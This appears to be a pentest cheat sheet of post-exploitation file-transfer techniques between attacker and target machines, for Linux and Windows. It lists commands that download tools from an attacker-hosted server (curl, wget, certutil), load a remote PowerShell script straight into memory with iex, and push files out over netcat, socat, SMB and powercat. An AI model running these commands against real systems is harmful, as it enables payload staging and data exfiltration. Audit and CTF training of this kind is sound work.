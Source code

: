 ```yaml
---
description: >-
  In this section I’m going to enumerate difference methods to transfer files
  such us exploits or outputs of some scripts from our attacker machine to the
  target and viceversa.
---
```


# Transfering Files 📤

In order to perform our work we have the need of transfer some files and this post collects some of this methods. Let’s see, these are some possibilities of environment that we can find during our audits.

## Linux 📤 to Linux 📥

### HTTP

First we need to start our **server** with python:

```bash
python3 -m http.server port
python -m SimpleHTTPServer port
php -S 0.0.0.0:port
ruby -run -e httpd . -p port
busybox httpd -f -p port
```

And download our files with Linux basics on the **target**:

```bash
wget http://ip-addr:port/file.name
curl http://ip-addr:port/file.name -o file.name
axel -a -n 20 -o file.name https://ip-addr:port/filen.name

#Freebsd
fetch -o file.name -q -R http://ip-addr:port/file.name
```

### Netcat / Socat

There are more ways with different protocols or programs to transfer our files:

```bash
nc -lp port > file.name
sudo socat TCP4-LISTEN:port,fork file:file.name
```

And on the target:

```bash
nc -w 3 ip-addr port < file.name
sudo socat TCP4:ip-addr:port file:file.name,create
```

### FTP \(File Transfer Protocol\)

First we need to start our ftp server, in this case I will use the Python module **pyftpdlib**, that allows you to set up our ftp server very quickly. To install you run the following command:

```bash
sudo apt-get install python-pyftpdlib
```

And start the **server**:

```bash
python -m pyftpdlib -p 21
```

Finally you can download the file on the **target** with:

```bash
wget ftp://ip-addr/file.name [--ftp-user=user] [--ftp-password=password]
axel -a -n 20 -o file.name ftp://ip-addr:port/filen.name
```

### Base64 Encoding

This is not the best solution beause you will need to Copy & Paste the output, and if you need to transfer a big file could be so tedious. Btw this are the commands:

```bash
base64 file.name
```

Copy the result and paste on your machine inside some quotes:

```bash
base64 -d "ZmxhZ3tINGNrMW5nTjB0ZXN9Cg==" > file.name
```

## Linux 📤 to Windows 📥

### HTTP

First we need to start our **server** with python:

```bash
python3 -m http.server port
python -m SimpleHTTPServer port
```

And download our files with **Windows** basics on the **target**:

#### Via CMD:

```bash
certutil -urlcache -f "http://ip-addr:port/file.name" file.name
powershell -c (New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file.name', 'file.name')
```

#### Via Powershell:

```bash
(New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file.name', 'file.name')
```

#### Import Powershell Script without storing in memory

```text
iex (New-Object System.Net.Webclient).DownloadString('http://ip-addr:port/file.ps1')
```

### SMB

Server Message Block \(SMB\) is a network protocol that allows us share files, printers, etc, between nodes that are Microsoft Windows.

To start a **smb server** you need to invoke smbserver.py class from [impacket](https://github.com/SecureAuthCorp/impacket).

```bash
python smbserver.py NAME FOLDER
```

And simply copy the file in the share volume to the target:

```bash
copy \\ip-addr\NAME\file.name .\file.name
```

Maybe there are some others ways to transfer files between Linux and Windows, but with these methods is more than enough to do our job!

## Windows 📤 to Linux 📥 

This section will be similar to previous one. 

### HTTP

If the target have python installed you can start the **server** in the same way: 

_\(Be careful on windows the python script in python2.7 is `http.server` and not `SimpleHTTPServer`\)_

```bash
python -m http.server
```

And download our files with Linux basics on the **target**:

```bash
wget http://ip-addr:port/file.name
curl http://ip-addr:port/file.name -o file.name
```

### SMB

In that case the **smb server** will also start on the attacker's machine \(Linux\). To start a **smb server** you need to invoke smbserver.py class from [impacket](https://github.com/SecureAuthCorp/impacket):

```bash
python smbserver.py NAME FOLDER
```

But the differece will be the order of copy arguments:

```bash
copy .\file.name \\ip-addr\NAME\file.name
```

### Powercat

Powercat is essentially the powershell version of netcat. First need to install in yout kali Machine to download the script:

{% hint style="info" %}
**Installation**: sudo apt install powercat
{% endhint %}

Then you will find the script in the following directory:

* `/usr/share/windows-resources/powercat/powercat.ps1`

Onced transfered the script and imported the module, start the listener on the kali 

```text
nc -lp port > file.name
```

And execute the following command to send the desired file.

```text
powercat -c ip-addr -p port -i file.name
```

## References:

* [https://ironhackers.es/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/](https://ironhackers.es/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/)
* [https://guide.offsecnewbie.com/transferring-files](https://guide.offsecnewbie.com/transferring-files)
* [https://medium.com/@PenTest\_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65](https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65)



